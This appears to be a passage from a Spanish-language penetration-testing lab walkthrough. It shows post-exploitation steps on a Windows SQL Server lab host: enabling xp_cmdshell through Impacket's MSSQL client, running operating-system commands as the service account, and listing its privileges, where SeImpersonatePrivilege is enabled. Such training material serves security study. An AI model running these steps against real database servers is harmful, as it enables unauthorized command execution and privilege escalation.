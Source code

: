 ### Enabling xp_cmdshell

A continuación, debemos habilitar el procedimiento almacenado `xp_cmdshell` para ejecutar comandos del sistema operativo. Podemos hacerlo a través del shell MSSQL de Impacket escribiendo `enable_xp_cmdshell`. Escribir `help` muestra algunas otras opciones de comando.

```r
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

Nota: No necesitamos escribir `RECONFIGURE` ya que Impacket lo hace por nosotros.

### Confirming Access

Con este acceso, podemos confirmar que estamos ejecutando en el contexto de una cuenta de servicio de SQL Server.

```r
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

### Checking Account Privileges

A continuación, verifiquemos qué privilegios se han otorgado a la cuenta de servicio.

```r
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
```
